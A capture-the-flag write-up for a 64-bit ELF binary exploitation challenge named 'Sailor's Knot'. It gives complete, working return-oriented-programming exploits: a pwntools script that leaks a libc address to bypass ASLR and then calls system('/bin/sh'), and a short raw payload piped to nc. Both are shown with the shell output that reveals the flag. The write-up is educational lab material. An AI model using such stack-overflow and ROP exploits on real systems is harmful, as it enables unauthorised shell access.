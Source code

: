 # Sailor's Knot
There is a huge variety of sailor's knots, but the common thing is they all use rops
or other types of cords.

```
nc 46.101.107.117 2112
```

Get a shell and read the flag.

[sailorsknot](sailorsknot)

---

This is the next level of [LOTL](../../level5/lotl/README.md) from the level 5.

The file type is also the same:
```
$ file sailorsknot
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=97703c7c27443a213e91b074911c7c744fc34043, not stripped
```

However, this time there is no `profit()` function...

As the challenge description reveals, this
is about [ROP - Return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming).
I had to do some study:
- [Introducing Weird Machines: ROP Differently Explaining part 1 - bin 0x29](https://www.youtube.com/watch?v=8Dcj19KGKWM&t=1s&ab_channel=LiveOverflow) (video)
- [Weird Return-Oriented Programming Tutorial - bin 0x2A](https://www.youtube.com/watch?v=zaQVNM3or7k&t=1s&ab_channel=LiveOverflow) (video)
- [Pwntools ROP Binary Exploitation - DownUnderCTF](https://www.youtube.com/watch?v=i5-cWI_HV8o&ab_channel=JohnHammond) (video)
- [Return-Oriented-Programming (ROP FTW)](https://www.exploit-db.com/docs/english/28479-return-oriented-programming-(rop-ftw).pdf) (PDF)
- [LEAK LIBC ADDRESSES FROM GOT TO EXPLOIT UNKNOWN LIBC, BYPASSING ASLR REMOTELY 64 BIT](https://www.ret2rop.com/2020/04/got-address-leak-exploit-unknown-libc.html) (blog)
- [ROP-PWN template](https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp/rop-pwn-template) (code snippet)

The binary contains one extra function `remove_me_before_deploy()`:
```
004007bb 55              PUSH       RBP
004007bc 48 89 e5        MOV        RBP,RSP
004007bf 5f              POP        RDI
004007c0 c3              RET
004007c1 48 31 c0        XOR        RAX,RAX
004007c4 c3              RET
004007c5 48 8d 3d        LEA        RDI,[s_/bin/ls_00400958]                         = "/bin/ls"
         8c 01 00 00
004007cc e8 3f fe        CALL       system                                           int system(char * __command)
         ff ff
004007d1 90              NOP
004007d2 5d              POP        RBP
004007d3 c3              RET
```

Those are some helpful ROP gadgets!

Nevertheless, I was unable to put them to use. I totally missed this:
```
$ strings -t x sailorsknot | grep /bin/sh
1080 Please ensure you remove _all_ references to the /bin/sh
```

I learned about this only after I had solved the challenge with a bit more complicated approach.

I pretty much followed
[Pwntools ROP Binary Exploitation - DownUnderCTF](https://www.youtube.com/watch?v=i5-cWI_HV8o&ab_channel=JohnHammond) (video).

I had issues with [stack alignment](https://wiki.osdev.org/Calling_Conventions#Note3) to 16 bytes,
but once I got around it, all worked just nice:

```python
from pwn import *

context.arch = 'amd64'

elf = ELF("sailorsknot")
rop = ROP(elf)

# First ROP payload to get libc address (bypassing ASLR)
rop.raw(rop.find_gadget(["ret"]))  # Align stack before call to % 16
rop.call("printf", [elf.got["printf"]])
rop.raw(rop.find_gadget(["ret"]))  # Align stack before call to % 16
rop.call("main")
print(rop.dump())

# p = elf.process()  # Local testing
p = remote("46.101.107.117", 2112)

p.recvuntil("\n")  # Welcome! Please give me your name!
p.sendline(b'A' * 40 + rop.chain())
p.recvuntil("\n")  # Hi XYZ, nice to meet you!

printf_address = u64(p.recvuntil("\n")[:6].ljust(8, b"\x00"))  # printf address (6 bytes) + Welcome! Please give ..
print("remote printf address: " + hex(printf_address))  # Address changes with each run (ASLR)

# 'printf' address always ends with e80 (ASLR doesn't change last 3 values because of paging)
# we can do the same exercise for 'gets', the address always ends with 0b0
# using https://libc.blukat.me/ we can determine the exact libc version which is libc6_2.27-3ubuntu1_amd64

# libc = ELF("libc6_2.31-3_amd64.so")  # Local testing
libc = ELF("libc6_2.27-3ubuntu1_amd64.so")

# Set libc base address (current printf address - libc printf offset, 0x064e80 in this version)
libc.address = printf_address - libc.symbols["printf"]
print("libc base address: " + hex(libc.address))

# Second payload to get a remote shell
rop = ROP(libc)
rop.raw(rop.find_gadget(["ret"]))
rop.call("system", [next(libc.search(b"/bin/sh\x00"))])
print(rop.dump())

p.sendline(b'A' * 40 + rop.chain())
p.recvuntil("\n")
p.interactive()
```

It outputs:
```
[*] '/..REDACTED../sailorsknot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'sailorsknot'
0x0000:         0x400295 ret
0x0008:         0x4007bf pop rdi; ret
0x0010:         0x601028 [arg0] rdi = got.printf
0x0018:         0x400620 printf
0x0020:         0x400295 ret
0x0028:         0x400757 main()
[x] Opening connection to 46.101.107.117 on port 2112
[x] Opening connection to 46.101.107.117 on port 2112: Trying 46.101.107.117
[+] Opening connection to 46.101.107.117 on port 2112: Done
remote printf address: 0x7f1f6e4e7e80
[*] '/..REDACTED../libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc base address: 0x7f1f6e483000
[*] Loaded 198 cached gadgets for 'libc6_2.27-3ubuntu1_amd64.so'
0x0000:   0x7f1f6e4838aa ret
0x0008:   0x7f1f6e4a455f pop rdi; ret
0x0010:   0x7f1f6e636e9a [arg0] rdi = 139772972723866
0x0018:   0x7f1f6e4d2440 system
[*] Switching to interactive mode
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
challenge2
flag
ynetd
cat flag
he2021{s41l0r_r0p_f0r_pr0f1t}
```

The flag is `he2021{s41l0r_r0p_f0r_pr0f1t}`

I learned a lot here! Thank you for this challenge!

## Easier solution

This is much shorter solution (if you don't overlook the `/bin/sh` string in
`sailorsknot` binary):
```python
import sys

OFFSET = b'A' * 40
POP_RDI = b'\xbf\x07\x40\x00\x00\x00\x00\x00'
BIN_SH = b'\xb0\x10\x60\x00\x00\x00\x00\x00'
CALL_SYSTEM = b'\xcc\x07\x40\x00\x00\x00\x00\x00'

sys.stdout.buffer.write(OFFSET + POP_RDI + BIN_SH + CALL_SYSTEM + b'\x0a')
```

Execute like this:
```
$ (python3 sailorsknot.py; cat) | nc 46.101.107.117 2112
Welcome! Please give me your name!
> Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@, nice to meet you!
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
challenge2
flag
ynetd
cat flag
he2021{s41l0r_r0p_f0r_pr0f1t}
```